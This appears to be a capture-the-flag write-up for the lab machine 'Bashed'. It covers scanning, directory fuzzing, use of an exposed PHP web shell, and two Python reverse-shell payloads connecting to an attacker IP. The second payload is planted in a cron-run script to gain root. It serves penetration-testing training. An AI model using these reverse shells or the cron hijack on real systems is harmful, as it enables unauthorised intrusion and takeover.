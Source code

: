 # Bashed

## Nmap Scanning

```

sudo nmap -sS -sC 10.10.10.68

Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 06:45 EDT
Nmap scan report for bashed.htb (10.10.10.68)
Host is up (0.68s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Arrexel's Development Site

Nmap done: 1 IP address (1 host up) scanned in 21.42 seconds
```

## Directory Fuzzing

```

ffuf -u http://10.10.10.68/FUZZ -w /usr/share/wordlists/dirb/common.txt:FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.68/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

                        [Status: 200, Size: 7743, Words: 2956, Lines: 162]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
:: Progress: [4614/4614] :: Job [1/1] :: 109 req/sec :: Duration: [0:00:54] :: Errors: 0 ::
```

inside the dev folder, there is two php file, phpbash.php, phpbash.min.ph

by clicking on phpbash.php, we get a web shell 

using python to get a shell 

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.124",9000));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

start a listener either using nc or metasploit

```

use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set lhost 10.10.17.124
lhost => 10.10.17.124
msf6 exploit(multi/handler) > set lport 9000
lport => 9000
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.17.124:9000 
[*] Command shell session 1 opened (10.10.17.124:9000 -> 10.10.10.68:51162) at 2021-07-07 06:54:17 -0400

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@bashed:/var/www/html/dev$ export TERM=xterm-256color               
export TERM=xterm-256color

www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data

www-data@bashed:/var/www/html/dev$ cd /home
cd /home

www-data@bashed:/home$ ls
ls
arrexel  scriptmanager

www-data@bashed:/home$ cd arrexel
cd arrexel

www-data@bashed:/home/arrexel$ cat user.txt
cat user.txt
*******************************
```

lets check for sudo permission that we might have

```

www-data@bashed:/home/arrexel$ sudo -l
sudo -l

Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

lets upgrade to scriptmanager

```

www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
sudo -u scriptmanager bash

scriptmanager@bashed:/home/arrexel$ whoami
whoami
scriptmanager

scriptmanager@bashed:/home/arrexel$ sudo -l
sudo -l
[sudo] password for scriptmanager: 

Sorry, try again.
[sudo] password for scriptmanager: 

Sorry, try again.
[sudo] password for scriptmanager: 

sudo: 3 incorrect password attempts

scriptmanager@bashed:/home/arrexel$ 
```

change directory to __/tmp__ 

download `LinPeas.sh` 

run it, we found out about /scripts folder

```

scriptmanager@bashed:/scripts$ ls -l
ls -l
total 8
-rwxr-xr-x 1 scriptmanager scriptmanager 215 Jul  7 04:31 test.py
-rw-r--r-- 1 root          root           12 Jul  7 04:31 test.txt
```

```

scriptmanager@bashed:/scripts$ cat test.py

cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

tried to move test.py, but after sometime we again got the test.py, might be work of a cron job

## Privilege escalation

lets replace the content of test.py file with the following to get a sudo shell

```

cat test.py
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.17.124",9003))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```
nc -lvnp 9003

# cat /root/root.txt
***********************************
```
